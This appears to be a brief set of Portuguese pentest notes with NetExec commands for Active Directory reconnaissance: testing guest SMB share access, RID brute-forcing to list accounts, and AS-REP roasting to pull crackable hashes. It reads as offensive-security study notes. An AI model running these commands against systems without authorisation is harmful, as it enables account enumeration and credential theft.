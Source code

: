 ```sh
# Primeiro verificamos se podemos fazer pré-auth com o usuário guest
$ nxc smb 10.0.10.5 -u 'guest' -p '' --shares

Se possível podemos executar um brute force de rids, que são apenas 4 dígitos
$ nxc smb 10.0.10.5 -u 'guest' -p '' --rid-brute
```

https://www.netexec.wiki/ldap-protocol/asreproast
```
nxc ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```